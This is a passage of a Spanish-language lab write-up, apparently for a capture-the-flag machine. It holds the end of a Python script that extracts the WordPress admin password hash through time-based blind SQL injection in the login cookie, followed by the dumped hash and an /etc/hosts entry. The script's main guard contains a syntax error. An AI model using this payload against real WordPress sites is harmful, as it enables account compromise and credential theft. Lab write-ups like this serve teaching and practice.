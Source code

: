 ~~~ python
                elapsed_time = end_time - start_time
                
                # Si el tiempo de respuesta es mayor al umbral, el carácter es correcto
                if elapsed_time > delay:
                    hash_value += char 
                    bar2.status(hash_value)
                    is_valid_hash = check_hash(url, hash_value)
                    if is_valid_hash:
                        log.success(f"Pass for admin: {is_valid_hash}")
                        sys.exit(0)
                    break
    except Exception as e:
        log.error("Error" + str(e))


def check_hash(url, hash_value):
    try:
        start_time = time.time()
        payload = f'" AND (SELECT (IF((BINARY(SELECT user_pass FROM wp_users WHERE user_login="admin")="{hash_value}"),SLEEP(5), SLEEP(0))) FROM (SELECT 1)TempTable) AND "a"="a'

        cookies = {"wordpress_logged_in": payload}
        response = requests.get(url, cookies=cookies)
        end_time = time.time()

        elapsed_time = end_time - start_time
        if elapsed_time > delay:
            return str(hash_value)

    except Exception as e:
        print("[-] Error: " + str(e))

if __name__ = '__main__':
	dump_pass("http://norc.labs/wp-login.php")
~~~

Esta sería la información que logramos extraer

~~~ bash
Database: wordpress
Table: wp_users

user_pass -> $P$BeNShJ/iBpuokTEP2/94.sLS8ejRo6.
user_login -> admin@oledockers.norc.labs
~~~

- Tenemos por un lado la contraseña en formato `hash`, que intentaremos crackearlo más adelante
- Vemos el nombre de usuario `admin`
- Se nos muestra un dominio para el usuario `admin`, `oledockers.norc.labs`

Agregaremos este nuevo dominio a nuestro archivo `/etc/hosts`

~~~ bash
cat /etc/hosts | grep norc.labs   

172.17.0.2 norc.labs oledockers.norc.labs
~~~
